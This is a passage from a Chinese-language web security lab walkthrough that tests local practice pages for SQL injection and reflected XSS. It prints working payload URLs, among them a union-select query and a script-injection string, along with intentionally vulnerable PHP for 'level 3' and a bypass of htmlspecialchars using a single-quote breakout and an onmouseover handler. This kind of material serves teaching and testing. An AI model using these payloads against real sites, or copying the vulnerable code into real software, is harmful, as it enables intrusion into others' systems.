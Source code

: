 
可以看到`$id`参数传入数据库里面进行了数据的查询，还将其传入到了`<input>`里面进行输出。


sql注入结果

	http://127.0.0.1:8000/waf/test2.php?id=-1+union+select+1%2Cuser%28%29%2C3&submit=%E6%8F%90%E4%BA%A4


![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/17-11-7/56538391.jpg)


XSS结果

	http://127.0.0.1:8000/waf/test2.php?id="><script>alert('+I+am+xss')</script>&submit=æäº¤


![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/17-11-7/19266749.jpg)

所以以上思考的问题是存在的，触发的时候，一个参数触发不同漏洞的时候，其中的`payload`不同，以后测试的时候，需要对参数进行多方漏洞的测试。

**3关**

这一次，把在`<input>`里面的内容进行了`htmlspecialchars`转义。这次再用第二关的`payload`，试试，就不行了。如何绕过`htmlspecialchars`的转义，使用不含有其转义字符的`payload`，反单引号是其中的一个。

代码

	<?php 
	ini_set("display_errors", 0);
	$str = $_GET["keyword"];
	echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>"."<center>
	<form action=level3.php method=GET>
	<input name=keyword  value='".htmlspecialchars($str)."'>
	<input type=submit name=submit value=搜索 />
	</form>
	</center>";
	?>


这个时候`input`的`payload`就被转义了。

	<input name=keyword  value='&quot;&gt;&lt;script&gt;alert(1)&lt;/script&gt;'>


既然这五个字符已经被转义了，考虑使用其他的不带有这几个特殊字符的`payload`。

那就使用`javascript`事件函数。

鼠标移动事件

	http://127.0.0.1:8000/xssgame/level3.php?keyword='+onmouseover=confirm(1)

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/17-11-7/7107866.jpg)

源码中可知

	<input name=keyword  value='' onmouseover=confirm(1) //'>

其中的`//`注释掉后面的`'`。

`htmlspecialchars`不对反单引号转义的。
